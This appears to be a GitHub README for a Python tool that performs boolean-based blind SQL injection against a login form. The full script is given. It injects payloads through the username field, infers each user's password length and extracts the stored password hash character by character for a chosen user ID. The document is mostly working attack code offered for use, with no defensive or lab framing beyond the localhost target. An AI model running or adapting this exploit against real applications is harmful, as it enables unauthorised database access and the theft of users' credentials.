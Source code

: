 # SQL Injection Password Hash Extractor
This Python script is designed to perform a SQL injection attack to extract password hashes from a vulnerable web application. It uses boolean-based blind SQL injection to determine the hash of the password for a given user ID.

## Features
- SQL Injection: Uses boolean-based blind SQL injection to extract password hashes.
- Detailed Logging: Tracks the number of queries made during the attack.
- Interactive Mode: Allows the user to input a user ID to extract the password hash.
## Usage
### Prerequisites:

- Install the required library:
```
pip install requests
```
- Run the Script:

Execute the script and input the user ID when prompted:
```
import requests

total_queries = 0
charset = '0123456789abcdef'
target = 'http://127.0.0.1:5000'
needle = "welcome back"

def injected_query(payload):
    global total_queries
    r = requests.post(target, data={"username": "admin' and {}--".format(payload), "password": "password"})
    total_queries += 1
    return needle.encode() not in r.content

def boolean_query(offset, user_id, character, operator=">"):
    payload = "(select hex(substr(password, {}, 1)) from user where id = {}) {} hex('{}')".format(offset + 1, user_id, operator, character)
    return injected_query(payload)

def invalid_user(user_id):
    payload = "(select id from user where id = {}) >= 0".format(user_id)
    return injected_query(payload)

def password_length(user_id):
    i = 0
    while True:
        payload = "select length(password) from user where id = {} and length(password) <= {} limit 1".format(user_id, i)
        if not injected_query(payload):
            return i
        i += 1

def extract_hash(charset, user_id, password_length):
    found = ""
    for i in range(0, password_length):
        for j in range(len(charset)):
            if boolean_query(i, user_id, charset[j]):
                found += charset[j]
                break
    return found

def total_queries_taken():
    global total_queries
    print("\t\t[!] {} total queries!".format(total_queries))
    total_queries = 0

while True:
    try:
        user_id = input("> Enter a user id to extract the password hash: ")
        if not invalid_user(user_id):
            user_password_length = password_length(user_id)
            print("\t[x] user {} hash length: {}".format(user_id, user_password_length))
            total_queries_taken()
            print("\t[-] user {} hash: {}".format(user_id, extract_hash(charset, int(user_id), user_password_length)))
        else:
            print("\t[x] user {} does not exist!".format(user_id))
    except KeyboardInterrupt:
        break
```
